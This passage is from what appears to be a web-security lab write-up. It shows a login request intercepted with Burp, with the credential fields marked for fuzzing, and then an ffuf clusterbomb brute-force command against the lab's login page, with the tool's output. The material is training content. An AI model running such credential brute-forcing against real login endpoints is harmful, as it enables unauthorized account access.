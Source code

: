 As we can see, we intercepted the request with Burp. We need to save this request to our machine. Then, we’ll need to make a small modification in the username and password.

<figure><img src="../assets/img/parametr_deyisikliyi.png" alt=""><figcaption></figcaption></figure>

We used the keywords FUZZUSER and FUZZPASS in the username and password fields. The reason for this is to inform FFUF which parameters to use when sending the words from the wordlist.

```bash
┌─[tofiq@parrot]─[~/Documents]
└──╼ $ffuf -request req.txt -request-proto https -mode clusterbomb -w username:FUZZUSER -w password:FUZZPASS

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://0ab70078033ef7cf8581d01a0067001d.web-security-academy.net/login
 :: Wordlist         : FUZZUSER: /home/htb-ac-1445179/username
 :: Wordlist         : FUZZPASS: /home/htb-ac-1445179/password
 :: Header           : Cookie: session=cSJsegq8IG2yJkuvuMhZWibYfMrDtuYz
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Origin: https://0ab70078033ef7cf8581d01a0067001d.web-security-academy.net
 :: Header           : Dnt: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Priority: u=0, i
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Te: trailers
 :: Header           : Host: 0ab70078033ef7cf8581d01a0067001d.web-security-academy.net
 :: Header           : Referer: https://0ab70078033ef7cf8581d01a0067001d.web-security-academy.net/login
 :: Header           : Accept-Language: en-US,en;q=0.5
```